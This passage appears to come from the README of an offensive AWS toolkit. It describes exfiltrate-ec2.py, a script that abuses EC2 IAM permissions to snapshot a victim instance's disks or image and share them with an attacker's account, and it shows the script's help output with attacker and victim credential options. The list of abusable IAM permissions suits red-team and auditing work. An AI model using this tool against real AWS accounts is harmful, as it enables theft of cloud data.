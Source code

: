 ```

	cloudformation:CreateStack
	iam:AttachRolePolicy
	iam:PassRole

```

- **`exfiltrate-ec2.py`** - This script exploits insecure permissions given to the EC2 IAM Role allowing to exfiltrate target EC2's filesystem data in a form of it's shared EBS snapshot or publicly exposed AMI image.

IAM Permissions abused:
- `ec2:CreateSnapshot`
- `ec2:ModifySnapshotAttribute`
- `ec2:CreateImage`

```
attacker $ python3 ./exfiltrate-ec2.py --help

        :: exfiltrate-ec2
        Exfiltrates EC2 data by creating an image of it or snapshot of it's EBS volume
        Mariusz Banach / mgeeky '19, <mb@binary-offensive.com>

usage: ./exfiltrate-ec2.py [-h] [--region REGION] [--profile PROFILE]
                           [--access-key ACCESS_KEY] [--secret-key SECRET_KEY]
                           [--token TOKEN] [--victim-profile VICTIM_PROFILE]
                           [--victim-access-key VICTIM_ACCESS_KEY]
                           [--victim-secret-key VICTIM_SECRET_KEY]
                           [--victim-token VICTIM_TOKEN] [-v]
                           {createimage,createsnapshot} ...

positional arguments:
  {createimage,createsnapshot}
                        Available methods
    createimage         Creates a snapshot of a running or stopped EC2
                        instance in an AMI image form. This AMI image will
                        then be shared with another AWS account, constituing
                        exfiltration opportunity.
    createsnapshot      Creates a snapshot of an EBS volume used by an EC2
                        instance. This snapshot will then be shared with
                        another AWS account, constituing exfiltration
                        opportunity.

required arguments:
  --region REGION       AWS Region to use.

optional arguments:
  -v, --verbose         Display verbose output.

Attacker's AWS credentials - where to instantiate exfiltrated EC2:
  --profile PROFILE     Attacker's AWS Profile name to use if --access-key was
                        not specified
  --access-key ACCESS_KEY
                        Attacker's AWS Access Key ID to use if --profile was
                        not specified
  --secret-key SECRET_KEY
                        Attacker's AWS Secret Key ID
  --token TOKEN         (Optional) Attacker's AWS temporary session token

Victim AWS credentials - where to find EC2 to exfiltrate:
  --victim-profile VICTIM_PROFILE
                        Victim's AWS Profile name to use if --access-key was
                        not specified
  --victim-access-key VICTIM_ACCESS_KEY
```